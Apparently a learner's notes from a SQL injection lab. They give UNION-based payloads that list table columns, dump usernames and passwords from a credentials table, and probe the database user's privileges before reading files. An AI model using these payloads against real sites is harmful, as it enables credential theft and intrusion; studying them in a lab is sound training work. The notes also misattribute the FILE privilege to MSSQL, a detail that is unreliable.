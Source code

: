 We see four table in the dev db, namely credentials, frameworks, pages and posts.

## COLUMNS:
To dump the data of the credentials, we first need the column names in the table, which cna be found in the COLUMNS table in the INFORMATION_SCHEMA db. The COLUMNS table contains information
about all columns present in all the db. This helps us find the column names to query for. The COLUMN_NAME and TABLE_SCHEMA columns can be used to archive this:
`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

## DATA:
Now we have all information we can from our UNION query to dump data of the user and pass columns from the credentials table in the dev db.
`cn' UNION select 1, username, password, 4 from dev.credentials-- -`

Exercise:
What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?
cn' UNION select 1,username, password, 4 from users-- -


# Reading Files:
- Privileges:
Reading darta is much more common than writing data, which is strictly reserverd for privileged users in common DBMSes, as it can lead to system explotation. In MSSQL, the DB user must have the FILE privilege to
load a file's content into a table and then dump data from that table and read files. Let us start gathering data about our user privilege within file db to decide whether we will
read and/or write to the back-end server.

- DB user
We have to determinate which user we are within the db. While we do necessarily need db admin privielege to read data, this is becoming more requeired ion modern DBMSes, as only DBA are given such privelege. The same applies
to other common db. If we do have DBA privielege, then it is much more probable that we hace file-read privielege. OF we dfo not, we have to check our prvilege to see what can do.
```slq
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
Our UNION injection payload will be as follow:
`cn' UNION SELECT 1, user(), 3, 4-- -`

or:
`cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -`

## User privielege:
Now that we know our userm we cna start looking for what privielege we have with that user, we cna test if we have super admin privilege with following query:
`SELECT super_priv FROM mysql.user`
